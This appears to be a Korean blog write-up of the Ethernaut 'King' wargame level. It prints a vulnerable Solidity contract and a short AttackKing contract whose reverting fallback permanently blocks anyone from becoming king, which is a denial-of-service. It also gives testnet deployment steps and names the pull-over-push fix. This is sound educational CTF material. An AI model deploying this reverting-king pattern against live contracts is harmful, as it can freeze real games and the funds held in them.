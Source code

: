 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 9) King
date: '2022-01-13 14:18:00'
author: 한성원
tags: ethernaut King vulnerability
categories: 취약점분석
---
```



# 👋 King
__Difficulty 6/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- 게임을 break 하기
- 즉 내가 왕이되고 누구도 왕이 될 수 없게 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract King {
    // address of king
    address payable king;
    // 
    uint public prize;
    // contract의 owner
    address payable public owner;

    // contructor
    constructor() public payable {
        // set deployer as owner
        owner = msg.sender;  
        // set deployer as king
        king = msg.sender;
        // set prize as msg.value <- deployer's value
        prize = msg.value;
    }

    // receive function to get Ether
    receive() external payable {
        // msg.value가 현재 prize 보다 크거나, msg.sender가 owner이면 진행
        require(msg.value >= prize || msg.sender == owner);
        // king에게 msg.value를 보낸다.
        king.transfer(msg.value);
        // king을 msg.sender로 변경
        king = msg.sender;
        // prize를 msg.value로 변경
        prize = msg.value;
    }

    // 누가 king인지 볼 수 있는 함수
    function _king() public view returns (address payable) {
        return king;
    }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 King은 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.

## 풀이
이 문제에서 우리의 목표는 이 게임을 break하는 것이다. 즉 누구도 게임을 할 수 없게 만들면 된다.

위 코드는 내가 전에 공부했던 King of Ether이라는 contract와 비슷하다. 그렇기 때문에 조금 쉽게 해결 할 수 있었다. unexpected revert가 무엇인지 궁금하다면 아래 post를 클릭해 먼저 보고오자!
- [DOS with Unexpected Revert](https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/)

이 문제에서 중요하게 봐야할 점은 .transfer이다. 우리는 transfer을 사용해 Ether를 보낼 수 있다. 근데 만약 EOA가 아닌 CA에게 Ether를 보내는 것이라면 어떨까? 

CA는 receive함수를 설정하여 Ether를 받지 않고 revert 시킬 수 있다. 즉 만약 CA가 king이 되고 Ether를 받지 못하게 설정한다면 이제 누구도 게임을 진행 할 수 없게된다.

attackKing contract를 한번 보며 더 이해해보자!

```solidity
contract AttackKing {

    constructor() public payable {}
    
    // King을 attack하는 function
    function attackKing(address payable _king) public payable {
        // send a transaction to King contract
        _king.call{value: msg.value}("");
    }

    // revert when ether comes in or when no name function was called
    fallback() external {
        revert();
    }
}
```
위 코드를 Remix IDE에서 위 코드를 Rinkeby Network에 배포한다.

우리가 King contract에서 공격할 수 있는 부분은 receive() function 밖에 없다. receive의 require 부분을 보면 prize보다 크거나 msg.sender가 owner이어야 한다. 우리는 owner가 될 수 없으니 prize보다 더 큰 값을 보내면 된다. 

우선 console 창에서 공격에 필요한 정보를 얻어보자
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// fromWei를 사용해 현재 prize의 값을 가져온다.
web3.utils.fromWei(await contract.prize()) // 0.001 Ether
```

remix로 돌아와서 0.001 Ether 보다 큰 값을 attackKing contract에 보낸다. 그럼 contract의 address가 King이 되어있을 것이다. 그리고 다른 account를 생성해 transaction을 보내본다면 revert 되는 것을 확인 할 수 있다. 아래 그림은 transaction을 보낸 후 etherscan에서 확인한 사진이다.
![transaction_reverted_ethernaut_King](transaction_reverted_ethernaut_King.png)

이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -

## Troubleshooting
나는 중간에 Gas Limit을 초과해 transcation이 계속해서 revert되는 것을 확인했다. 처음에는 무엇 때문인지 몰랐지만 etherscan에서 transaction을 확인한 후 알 수 있었다.
![gas_limit_failed-1](gas_limit_failed-1.png)
![gas_limit_failed-2](gas_limit_failed-2.png)

이후 transaction을 보낼때 gas limit을 높혀주니 transactino이 정상적으로 진행되었다.

- - -

## 마무리
전에 다뤘던 [DOS With Unexpected Revert 취약점](https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/)과 비슷했다. 위 게시글에서도 말했듯이 이 부분은 pull over push를 사용하여 문제를 해결 할 수 있다. ethernaut 시리즈가 끝나고 pull over push와 같은 방법론들도 다뤄보도록 하겠다!

- - -

## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- DOS With Unexpected Revert 취약점: https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/

```toc

```